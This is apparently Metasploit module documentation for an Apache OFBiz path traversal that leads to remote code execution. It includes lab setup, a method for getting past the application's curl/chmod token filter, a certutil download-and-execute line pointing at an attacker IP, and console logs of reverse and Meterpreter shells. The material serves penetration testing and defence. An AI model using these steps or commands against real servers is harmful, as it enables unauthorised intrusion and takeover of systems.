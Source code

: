 ## Vulnerable Application
Apache OFBiz versions prior to 18.12.13 are vulnerable to a path traversal vulnerability. The vulnerable
endpoint `/webtools/control/forgotPassword` allows an attacker to access the `ProgramExport` endpoint which in
turn allows for remote code execution in the context of the user running the application.

### Description
The module can exploit Apache OFBiz running on both Windows and Linux. OFBiz has list of `deniedWebShellTokens`
which includes strings like `curl` and `chmod` which attempts to prevent ProgramExport from being exploited. The list
can be bypassed if you encode your payload in unicode characters, which is what is done for payloads being sent to
Apache OFBiz running on Linux. Trying to do the same on Windows results in the application throwing errors complaining
about multiple characters.
```
      <p>The Following Errors Occurred:</p>
        <p>org.codehaus.groovy.control.MultipleCompilationErrorsException: startup failed:
Script1.groovy: 1: unexpected char: &#39;:&#39; @ line 1, column 49.
```

Which is why the following: `'BadChars' => "\x3a"` has been added. Adding BadChars changes the payload
to be Base64 encoded and gets powershell to decode and run it: `powershell -w hidden -nop -e <Base64 encoded payload>`
However if you have a fetch payload selected which separates the downloading of the payload from the execution of the
payload with an ampersand:
`certutil -urlcache -f http://172.16.199.1:8080/-LHoYC22ccefBZaLFchCEQ %TEMP%\\kBAJaFov.exe & start /B %TEMP%\\kBAJaFov.exe`,
powershell doesn't interpret the ampersand in the same way cmd.exe would and thus will try to execute the payload before
it's finished downloading.

This is why, at the time of writing, a PowerShell payload must be used when exploit a target running on Windows.

### Setup

#### Docker

1. Run the following docker command to spin up a vulnerable target:
`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 vulhub/ofbiz:18.12.09`

#### Windows 10 (Build 19045)

1. Download the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Download a vulnerable version of Apache OFBiz from https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.12.zip
1. Create the directory: `C:\ofbiz`.
1. Unzip the contents of `apache-ofbiz-18.12.12.zip` into `C:\ofbiz`.
1. Run `cd C:\ofbiz`.
1. Run `init-gradle-wrapper` to initialize the Gradle wrapper.
1. Run `.\gradlew cleanAll loadAll` to clean the system and load the complete OFBiz data.
1. Once the above completes run `.\gradlew ofbiz` to start the application
1. Navigate to `https://localhost:8443/webtools`


## Verification Steps

1. Start msfconsole
1. Do: `use apache_ofbiz_forgot_password_directory_traversal`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a session in the context of the user running Apache OFBiz.

## Scenarios

### Apache OFBiz 18.12.12 running on Windows 10 (Build 19045)
```
msf6 > use apache_ofbiz_forgot_password_directory_traversal

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_ofbiz_forgot_password_directory_traversal  2024-05-30       excellent  Yes    Apache OFBiz Forgot Password Directory Traversal
   1  \_ target: Linux Command                                             .                .          .      .
   2  \_ target: Windows Command                                           .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/apache_ofbiz_forgot_password_directory_traversal
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command'

[*] Using exploit/multi/http/apache_ofbiz_forgot_password_directory_traversal
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > use 2
[*] Additionally setting TARGET => Windows Command
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run rhosts=172.16.199.132 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested command injection successfully
[*] Attempting to exploit...
[*] Powershell session session 1 opened (172.16.199.1:4444 -> 172.16.199.132:50229) at 2024-06-07 12:44:48 -0400

PS C:\ofbiz> whoami
desktop-n3oru31\msfuser
PS C:\ofbiz> systeminfo

Host Name:                 DESKTOP-N3ORU31
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
```

### Apache OFBiz 18.12.12 running in Docker on MacOS 14.5
```
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run target=0 payload=cmd/linux/http/x64/meterpreter/reverse_tcp rhosts=172.16.199.1 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested command injection successfully
[*] Attempting to exploit...
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.1:54454) at 2024-06-07 13:02:01 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.26-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
